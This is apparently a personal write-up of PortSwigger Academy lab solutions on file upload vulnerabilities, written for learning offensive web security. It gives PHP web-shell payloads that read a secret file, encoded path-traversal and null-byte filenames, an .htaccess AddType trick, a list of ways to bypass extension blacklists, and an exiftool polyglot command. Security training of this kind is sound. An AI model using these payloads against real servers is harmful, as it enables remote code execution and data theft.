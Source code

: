 ```yaml
---
description: >-
  https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities
---
```


# 📑 File Upload vulnerabilities

File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size. Failing to properly enforce restrictions on these could mean that even a basic image upload function can be used to upload arbitrary and potentially dangerous files instead. This could even include server-side script files that enable remote code execution.

We already did some File uploads in the&#x20;

{% content-ref url="server-side-vulnerabilities.md" %}
[server-side-vulnerabilities.md](server-side-vulnerabilities.md)
{% endcontent-ref %}

### Lab: Web shell upload via path traversal

We start by uploading our php payload and capturing the request:

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We saw that we were able to upload the PHP file, but it was as a txt file, the folder must filter out the PHP files, so let's save the PHP file in another directory. If we do a filename ../webshell.php it cuts the ../ but if we encode it to ..%2fwebshell.php it seems to work:

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we see when encoding it saves the shell in another directory ->

so i took te req and forwarded it, on the page it showed:

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and now we go back on repeater, and we get the file:

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Lab: Web shell upload via extension blacklist bypass

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

This payload will enable us to read the content of the secret file, now let's upload our picture and the request ->

<figure><img src="../../.gitbook/assets/image (845).png" alt=""><figcaption></figcaption></figure>

and with the following request we are able to GET our image:

```
GET /files/avatars/image.png
```

if we try to run a php payload ->

<figure><img src="../../.gitbook/assets/image (846).png" alt=""><figcaption></figcaption></figure>

and if we look at the pretty output:

<figure><img src="../../.gitbook/assets/image (847).png" alt=""><figcaption></figcaption></figure>

We can see on this website that .htaccess files are not very secure:

{% embed url="https://httpd.apache.org/docs/2.4/howto/htaccess.html" %}

So we are going to rename the file .htaccess and change the content:

<figure><img src="../../.gitbook/assets/image (848).png" alt=""><figcaption></figcaption></figure>

```
AddType application/x-httpd-php .shell
```

* `AddType`: This is an Apache directive used to specify how files with certain extensions should be handled by the server.
* `application/x-httpd-php`: This indicates the MIME type of the files. In this case, it specifies that the files are PHP scripts.
* `.shell`: This is the file extension that the directive applies to. In this case, it's `.shell`, meaning any file with this extension will be treated as a PHP script.

And now we take the query back in time and make our malicious file:

<figure><img src="../../.gitbook/assets/image (849).png" alt=""><figcaption></figcaption></figure>

#### Other techniques to bypass file extension blacklist:

* Provide multiple extensions. Depending on the algorithm used to parse the filename, the following file may be interpreted as either a PHP file or JPG image: `exploit.php.jpg`
* Add trailing characters. Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`
* Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: `exploit%2Ephp`
* Add semicolons or URL-encoded null byte characters before the file extension. If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
* Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
*   you can position the prohibited string in such a way that removing it still leaves behind a valid file extension. For example, consider what happens if you strip `.php` from the following filename:

    `exploit.p.phphp`

### Lab: Web shell upload via obfuscated file extension

So for the chal we can easily guess it's one of those, and indeed it was:

<figure><img src="../../.gitbook/assets/image (850).png" alt=""><figcaption><p>FP.php%00.jpg</p></figcaption></figure>

And we can now make a GET to the file:

<figure><img src="../../.gitbook/assets/image (851).png" alt=""><figcaption></figcaption></figure>

#### Flawed validation of the file's contents

Instead of implicitly trusting the `Content-Type` specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.

In the case of an image upload function, the server might try to verify certain intrinsic properties of an image, such as its dimensions. If you try uploading a PHP script, for example, it won't have any dimensions at all. Therefore, the server can deduce that it can't possibly be an image, and reject the upload accordingly.

Similarly, certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes `FF D8 FF`.

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata.

{% embed url="https://exiftool.org/" %}

### Lab: Remote code execution via polyglot web shell upload

We need to create a malicious php file with a JPG header

```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

* `exiftool`: This is the command-line utility we're using.
* `-Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>"`: This part sets the comment metadata of the image file to a PHP code snippet. It appears to be intended to embed PHP code into the metadata of the image. The PHP code retrieves the contents of a file located at `/home/carlos/secret` and appends 'START ' before the content and ' END' after the content.
* `<YOUR-INPUT-IMAGE>.jpg`: This is where you would specify the input image file. Replace `<YOUR-INPUT-IMAGE>.jpg` with the path to your actual image file. The `.jpg` extension suggests that the input image file is in JPEG format.
* `-o polyglot.php`: This part specifies the output file name. It instructs ExifTool to save the modified image with the PHP code embedded in its metadata into a file named `polyglot.php`.

We upload the file and if we&#x20;

`GET /files/avatars/polyglot.php`

We can have the password

#### Exploiting file upload race conditions

Modern frameworks are more battle-hardened against these kinds of attacks. They generally don't upload files directly to their intended destination on the filesystem. Instead, they take precautions like uploading to a temporary, sandboxed directory first and randomizing the name to avoid overwriting existing files. They then perform validation on this temporary file and only transfer it to its destination once it is deemed safe to do so.

